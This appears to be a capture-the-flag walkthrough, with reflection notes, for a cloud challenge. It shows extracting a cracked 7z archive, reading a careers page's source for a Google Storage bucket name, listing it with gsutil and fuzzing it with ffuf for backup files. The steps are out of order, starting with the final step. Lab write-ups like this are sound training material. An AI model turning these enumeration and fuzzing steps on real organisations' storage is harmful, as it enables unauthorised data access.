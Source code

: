 10. **Extracting the Flag**
    

    We will extract the contents of the cracked archive and find the MD5 hash flag.
    
    1. Extract the archive using the cracked password:
        
        ```bash
        7z x backup.7z
        ```
    2. When prompted, enter the password found by Hashcat.
    3. Examine the extracted files to locate the MD5 hash flag. It might be in a text file or embedded within other data.

    
    <reflection>
    This is the final step. Once the archive is extracted, finding the flag should be relatively straightforward. It's an MD5 hash and likely within the extracted files.
    </reflection>


## Here goes:

1. **Initial Reconnaissance**
    *   Visit the website: [https://careers.gigantic-retail.com/index.html](https://careers.gigantic-retail.com/index.html)
    *   View the page source.
    *   Locate the commented-out code containing the Google Storage bucket name: `it-storage-bucket`

2. **Bucket Enumeration**
    *   Authenticate with Google Cloud:
        ```bash
        gcloud auth login
        ```
    *   Attempt to list bucket contents (expect access denied):
        ```bash
        gcloud storage buckets list gs://it-storage-bucket/
        gsutil ls gs://it-storage-bucket/
        ```
    *   Get information about `index.html`:
        ```bash
        gsutil stat gs://it-storage-bucket/index.html
        ```

3. **Fuzzing for Hidden Files**
    *   Install `ffuf`:
        ```bash
        go install github.com/ffuf/ffuf/v2@latest
        ```
    *   Download backup file wordlist:
        ```bash
        wget https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt
        ```
    *   Run `ffuf` to find `backup.7z`:
        ```bash
        ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c
        ```
